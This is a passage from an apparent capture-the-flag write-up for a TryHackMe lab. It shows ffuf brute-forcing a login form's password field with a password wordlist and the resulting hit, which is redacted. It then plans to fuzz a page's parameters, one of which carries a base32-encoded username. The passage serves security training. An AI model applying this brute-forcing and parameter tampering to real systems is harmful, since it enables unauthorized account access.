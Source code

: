```terminal
                                                                                                                                                                                              
       v2.1.0-dev                                                                                                                                                                             
________________________________________________                                                                                                                                              
                                                                                                                                                                                              
 :: Method           : POST                                                                                                                                                                   
 :: URL              : http://nano.cherryontop.thm/login.php                                                                                                                                  
 :: Wordlist         : FUZZ: /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt                                                                                            
 :: Header           : Content-Type: application/x-www-form-urlencoded                                                                                                                        
 :: Data             : username=puppet&password=FUZZ&submit=                                                                                                                                  
 :: Follow redirects : false                                                                                                                                                                  
 :: Calibration      : false                                                                                                                                                                  
 :: Timeout          : 10                                                                                                                                                                     
 :: Threads          : 40                                                                                                                                                                     
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                                                                                   
 :: Filter           : Regexp: Bad                                                                                                                                                            
________________________________________________                                                                                                                                              
[REDACTED]                  [Status: 302, Size: 333, Words: 37, Lines: 12, Duration: 2166ms]       
```

We got the password! Let's login.

![logged](6.png)

On the dashboard we find `molly's` password.

### sam-sprinkles

Going back the `cherryontop.thm` we go to `content.php` page.

![content](7.png)

The page gives us some facts about ice cream, let's check the request on burp.

![burpasd](8.png)

We got two GET parameters, `facts` and `user`, the user value is a base32 encode of `guest`.

Let's try fuzzing other facts numbers and see what we can find.\
